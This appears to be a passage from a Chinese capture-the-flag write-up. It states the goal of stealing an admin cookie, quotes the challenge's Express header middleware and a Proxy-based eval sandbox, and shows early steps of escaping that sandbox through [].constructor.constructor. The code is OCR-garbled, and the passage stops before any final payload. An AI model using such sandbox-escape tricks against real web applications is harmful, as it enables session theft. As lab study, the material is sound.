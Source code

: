 所以思路就是获取到admin的cookie

app.use( '/', ( req, res, next) =>{res.setHeader( 'X-Frame-Options', 'DENY');returnnext;});// sandbox the sandboxapp.use( '/sandbox.html', ( req, res, next) =>{res.setHeader( 'Content-Security-Policy', 'frame-src 'none'');// we have to allow this for obvious reasonsres.removeHeader( 'X-Frame-Options');returnnext;});

通过上面的代码限制，我们只能在sandbox.html这里用iframe

在/ide路由下查看源码，可以看到有一个sanbox.js，代码如下

constsafeEval = ( d) =>(function( data){with( newProxy( window, {get: ( t, p) =>{if(p === 'console') return{ log };if(p === 'eval') returnwindow.eval;returnundefined;}})){eval(data);}}).call( Object.create( null), d);

可以看到有个eval，考虑再利用它进行代码执行。

首先尝试了使用console.log([].constructor.constructor);，发现拿到了function Function { [native code] }

![21761837cfc7911887da3db52392c99f.png](img/f47c405658ea6fe5f798a4b37622ef35.png)

继续尝试console.log([].constructor.constructor('return eval(1+1)'));
